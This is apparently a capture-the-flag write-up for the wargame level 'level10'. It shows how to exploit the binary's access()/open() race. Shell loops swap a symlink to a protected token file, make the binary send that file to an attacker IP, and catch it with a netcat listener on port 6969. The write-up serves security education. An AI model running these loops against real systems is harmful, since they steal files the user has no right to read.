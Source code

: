 # Research 

If we do `strings level10` we can see that the progam seems to send a file to a host on its port 6969, once it is sent, it opens it, reads it, and write it.

We don't have permission to `cat token`, so maybe we can send token with level10 program on a host and read it once level10 wrote token.

How do we do that?

`If you want to create a simple "test" server that can be set listen on a specified port and that you can interact with, take a look at the netcat command`
https://askubuntu.com/questions/301787/opening-a-port-for-listening

` [netcat] can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.`
`nc -l      Listen for an incoming connection rather than initiating a connection to a remote
             host.  The destination and port to listen on can be specified either as non-optional
             arguments, or with options -s and -p respectively.`
http://manpages.ubuntu.com/manpages/hirsute/en/man1/nc_openbsd.1.html


So we can start to execute level10 with token on our IP address: `./level10 token 10.12.0.0` but it does not work as we don't have access to token. </br>
Let's do a symlink on token: `ln -s /home/user/level10/token /tmp/final` and try `./level10 /tmp/final 10.12.0.0` -> It does not work as we don't have access to /tmp/final.</br>

`strings level10` shows that level10 does an access() then an open(). This is a security hole. 

`Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.`
https://linux.die.net/man/2/access

So we can do the symlink again and again, hoping that level10 will accept our file with access, then the symlink will occure, then level10 will open our modified file. 

# Solution

Level10 seems to be able to sends any file we create so let's do on a first terminal connected with ssh: `while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done` to create the file that is going to be the symlink.

On a second ssh terminal let's do: `while true; do (./level10 /tmp/final 10.11.200.134); done` to execute level10 in a loop.

On a third terminal, we can listen to the port 6969 with the netcat command: `while true; do nc -l 6969 ;done`



# brouillon


First ssh terminal: `while true; do (./level10 /tmp/final 10.11.200.134); done`

Second ssh terminal: `while true; do nc -l 6969 ;done`

`readlink -f token` to know true token path

third ssh terminal: `while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done`

If you don't rm and touch /tmp/final the symlink is on put final and you ./level10 will say you don't have access to /tmp/final, you need a new file created by you to pass the access() check and then apply symlink to /tmp/final
